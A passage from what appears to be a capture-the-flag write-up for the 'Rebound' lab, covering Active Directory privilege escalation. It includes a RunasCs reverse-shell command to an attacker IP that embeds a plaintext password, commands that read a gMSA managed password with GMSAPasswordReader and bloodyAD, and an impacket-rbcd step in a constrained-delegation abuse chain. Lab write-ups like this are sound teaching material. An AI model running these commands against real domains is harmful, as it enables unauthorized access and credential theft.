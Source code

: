 `RunasCs.exe tbrady 543BOMBOMBUNmanda cmd -r 10.10.14.142:2222`

<img src="https://i.imgur.com/6YlbO3S.png"/>

<img src="https://i.imgur.com/rB58Oaf.png"/>

Transferring GMSAPasswordReader

<img src="https://i.imgur.com/rdSsFge.png"/>

```bash
GMSAPasswordReader.exe --AccountName delegator
```

<img src="https://i.imgur.com/6UKJIjL.png"/>

This can also be retrieved through `bloodyAD`

```bash
bloodyAD.py -u tbrady -d rebound.htb -p 543BOMBOMBUNmanda --host 10.10.11.231 get object 'delegator$' --attr msDS-ManagedPassword
```

<img src="https://i.imgur.com/Nud25dm.png"/>

Using `StandIn` we can verify that delegator$ has constrained delegation set to `http/dc01.rebound.htb` with protocol transition set to false 

<img src="https://i.imgur.com/NLUovOK.png"/>
<img src="https://i.imgur.com/0f9G1XW.png"/>

To abuse this we need to first edit  `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on delegator$ to add any domain user that we control and request a ticket for browser SPN to impersonate as DC01$ then with http SPN we can impersonate as any domain user we want unless it's not in `protected group` or not marked `is sensitive and cannot be delegated` (this is very new to me I don't think I may have explained it correctly) so here's the resource which can help in understanding better about this scenario https://www.thehacker.recipes/a-d/movement/kerberos/delegations/constrained

<img src="https://i.imgur.com/pZiq0G0.png"/>

First requesting TGT of delegator$

<img src="https://i.imgur.com/Sb6eWLR.png"/>

With `rbcd.py` we can try reading the value of  msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
impacket-rbcd 'rebound.htb/delegator$' -k -no-pass -delegate-to 'delegator$' -action read -use-ldaps -dc-ip 10.10.11.231
```

<img src="https://i.imgur.com/7m3MBSd.png"/>

We need to add ldap_monitor add in this property as this account has a SPN to dc01 `ldapmonitor/dc01.rebound.htb`
